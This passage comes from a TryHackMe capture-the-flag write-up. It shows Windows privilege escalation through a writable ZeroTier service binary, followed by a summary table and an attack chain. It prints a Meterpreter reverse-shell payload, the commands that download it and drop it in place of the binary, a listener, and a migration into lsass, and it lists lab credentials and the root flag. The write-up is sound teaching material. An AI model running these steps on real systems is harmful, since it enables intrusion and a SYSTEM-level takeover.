

**The privilege escalation path:** `zerotieroneservice` runs as `LocalSystem`, and its binary is writable by any authenticated user (`BUILTIN\Users`). Any file dropped in that path will be executed with SYSTEM privileges the next time the service starts — a textbook weak service-binary-permissions escalation.

---

## Privilege Escalation

Generated a Windows x64 Meterpreter reverse TCP payload:

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.129.1 LPORT=4444 -f exe -o shell2.exe
python3 -m http.server 8000
```

From the target, navigated into the writable ZeroTier install path and pulled the payload down, dropping it in place of the legitimate service binary:

```powershell
cd 'C:\Program Files (x86)\Zero Tier'
Invoke-WebRequest -Uri http://192.168.129.1:8000/shell2.exe -OutFile Zero.exe
```



Stood up a matching listener in Metasploit:

```
msfconsole -q
msf > use multi/handler
msf exploit(multi/handler) > set LHOST 192.168.129.1
msf exploit(multi/handler) > set LPORT 4444
msf exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
msf exploit(multi/handler) > exploit
```



Restarted the service to trigger execution of the malicious binary as SYSTEM, then migrated into `lsass.exe` to stabilize the session:

```powershell
Start-Service -Name zerotieroneservice
```

```
migrate -N lsass.exe
```



Root flag retrieved from the Administrator's Desktop:

```
meterpreter > cat C:\Users\Administrator\Desktop\root.txt
```



**Root Flag:** `THM{1a1fa94875421296331f145971ca4881}`

---

## Conclusion

| Stage | Technique | Result |
|---|---|---|
| Recon | RustScan + Nmap, RDP NTLM info leak | Identified Domain Controller, unusual port 7990 |
| Recon | SMB null session (`smbclient -L`) | Access to `Docs` and `Users` shares |
| Vuln ID | Web enumeration of port 7990 | Discovered internal GitHub migration notice |
| Vuln ID | GitHub org OSINT | Found leaked credentials in Git commit history |
| Exploitation | PowerShell history looting | Recovered a second (unusable) credential pair |
| Exploitation | Credential validation via NetExec | Confirmed `nik:ToastyBoi!` as valid domain access |
| Exploitation | Kerberoasting (`impacket-GetUserSPNs`) | Retrieved and cracked `bitbucket:littleredbucket` |
| Foothold | RDP as `bitbucket` | Interactive access, user flag |
| Post-Exploitation | PowerUp.ps1 (`Invoke-AllChecks`) | Identified modifiable `zerotieroneservice` binary |
| Privilege Escalation | Service binary hijack + `msfvenom` payload | SYSTEM shell, root flag |

---

## Attack Chain Summary

```
Unauthenticated Recon
   └─ SMB Null Session → Docs / Users shares (loot: locked xlsx/docx)
   └─ Web Enum (:7990) → GitHub migration notice
        └─ GitHub OSINT → leaked credential in commit history (nik:ToastyBoi!)
   └─ SMB Users share → PowerShell history (loot: unusable credential)
        └─ nik:ToastyBoi! validated over SMB
             └─ Kerberoasting → bitbucket SPN ticket → cracked (bitbucket:littleredbucket)
                  └─ RDP foothold as bitbucket → USER FLAG
                       └─ PowerUp.ps1 → modifiable zerotieroneservice binary
                            └─ Malicious service binary + service restart → SYSTEM → ROOT FLAG
```

---

*This writeup documents activity performed exclusively within an authorized TryHackMe lab environment for educational purposes. Do not apply these techniques against any system you do not own or have explicit written permission to test.*

**A1GCH ⚔ NullSecure**
